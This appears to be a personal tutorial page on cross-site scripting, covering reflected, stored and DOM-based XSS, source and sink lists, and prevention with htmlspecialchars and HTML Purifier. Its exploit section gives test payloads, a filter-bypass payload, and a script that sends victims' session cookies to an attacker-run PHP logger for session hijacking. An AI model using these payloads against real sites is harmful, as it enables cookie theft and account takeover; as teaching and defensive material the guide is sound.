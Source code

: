 # Website Vulnerabilities - XSS
> July 1st, 2023
----------------------------------------------------------------

## Author's Note

All of this is strictly for educational purposes only. I do not condone illegal activity. Please use this guide solely to educate yourself on how to protect your website. 

## Introduction

By default any Javascript code will run in your browser. Some websites don't do a good job at sanitizing their user input which can lead to devastating impacts. 

When someone is able to post onto a website, use Inspect Element to see if the website processes special characters such as: `< > ;`. If it doesn't encode them or use any other forms of sanitization, there could be a chance of XSS being possible

## Reflected XSS

Payload is reflected off the web server. Carried out through a single request/response cycle

## Stored XSS

Payload is permanently stored on target server such as a DB. The victim retrieves the maliciosu script from the server when it requests the stored infromation. Also known as Persistent XSS. Typically, you would see stored XSS on a blog, comment, or reply. As long as the website saves the user input on the database and echos it back to the website, there should be stored XSS. 

To search for Stored based XSS, look for features on the website where information is stored, and hopefully, shown back to the user. 

## DOM-based XSS

XSS attack where payload is executed as a result of modifying the DOM environment in the victim's browser used by the original client side script, so that the client side code runs in an unexpected manner. The page itself (HTTP response) doesn't change, client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

In DOM-based XSS the malicious code is never sent to the server. The injection-point is somewhere where javascript has access. 

The typical example of how this works is with URLs.

The user is able to control the URL with the help of the hash-symbol `#`. If we add that symbol to a URL the browser will not include that characters that comes after it in the requet to the server.

`https://example.com/#this_is_not_sent_to_server`

However, the complete URL is included in DOM-objects.

```txt
document.URL
# will generate this output: https://example.com/#this_is_not_sent_to_server
```

**Source**

So in order to inject and execute a DOM-based XSS we need a injection-point (called source) and a point of execution (called sink).

In the example above `document.URL` is our source. Example of other sources are:

```txt
document.URL
document.documentURI
document.URLUnencoded (IE 5.5 or later Only)
document.baseURI
location
location.href
location.search
location.hash
location.pathname
window.name
document.referrer
```

**Sinks**

```txt
eval    
setTimeout      
setInterval     
setImmediate    
execScript      
crypto.generateCRMFRequest      
ScriptElement.src       
ScriptElement.text      
ScriptElement.textContent       
ScriptElement.innerText         
anyTag.onEventName

document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

DOM based cross site scripting occurs when JavaScript code accepts a user’s input (source) and passes that input to another function that displays the results back to the page (sink) in an unsafe manner. 

Source: A source function is any JS property or function that accepts user input from somewhere on the page. An example of a source is the location.search property because it reads input from the query string.

Sink: A sink is a potentially dangerous JavaScript function that can caused undesirable effects if attacker controlled data is passed to it. Basically, if the function returns input back to the screen as output without security checks, it’s considered a sink. An example of this would be the “innerHTML” property used earlier as that changes the contents of the HTML page to whatever is given to it.

> https://chryzsh.gitbooks.io/pentestbook/content/dom-based-xss.html
> 
> https://yewtu.be/watch?v=-9QN_kGPkEc
> 
> https://portswigger.net/web-security/cross-site-scripting/dom-based
> 
> https://github.com/Sivnerof/Sources-And-Sinks-Cheatsheet
> 
> https://medium.com/@fath3ad.22/understanding-dom-based-xss-sources-and-sinks-c17ae4bc7455

## Exploit code or POC

**Check for XSS**
```javascript
// Better versions as explained here: https://vid.puffyan.us/watch?v=KHwVjzWei1c
<script>alert(document.domain)</script>
<script>alert(domain.origin)</script>
<script>alert(window.origin)</script>
```
If you get an alert box that displays information about the above, you may have just found XSS!

**Poor sanitization technique**

If you are given access to source code, analyze any input the user is able to make. Some websites will have poor sanitzation techinques such as removing only `<script>` tags. This can be defeated very easily in multiple ways:
```javascript
<scr<script>ipt>alert(1)<scr<script>ipt>
```

The website looks for any input that says `<script>`, and when it does, it turns it into nothing. Then it processes whatever the user has left.
```javascript
// Before
<scr<script>ipt>alert(1)<scr<script>ipt>
	
// After sanitzation
<script>alert(1)<script>
	
// Pop-up window shows = Pwned!
```

**Data grabber for XSS**

Below sends a session cookie to the attacker's machine which will usually have a listener like Netcat or Python HTTP server

```javascript
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
```

The cookie.php file:
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

Once we have someone's session cookie, we can use Firefox's developer tool to add in this cookie so we can perform an attack known as **session hijacking**.

Use the XSS README.md file for more information and obfuscation techniques

## How to prevent XSS attacks?

One way to prevent XSS from happening is to encode special characters. We do this by using htmlspecialchars() in PHP. When do we do this? Whenever we want to echo user supplied data back onto the website. Example:

```php
// Some random html junk that gets a user's username
echo(htmlspecialchars($_POST['username']));
```

In the case where you CANNOT use htmlspecialchars, at the very least, use an HTML parser/sanitizer library that tries to sanitize input. For example, when installing Quill text editor, you cannot use htmlspecialchars because it would break the formatting of the post. Therefore, I settled with the 2nd best option, which was to use a library to handle sanitization. 

The best one I can find for PHP is: https://github.com/ezyang/htmlpurifier

**Update to Quill Editor**
I just realized that Quill editor sanitizes bad input by default, but despite this, THIS IS STILL CLIENT SIDE CODE, AND THEREFORE MANIPULATABLE BY CLIENTS! Therefore, you NEED client-side sanitization AND server-side sanitization. So it's good to have htmlpurifier.

**Extra Resources**

https://xss-payloads.paracyberbellum.io/payloads.html

https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html

https://owasp.org/www-community/attacks/xss/

https://github.com/ezyang/htmlpurifier
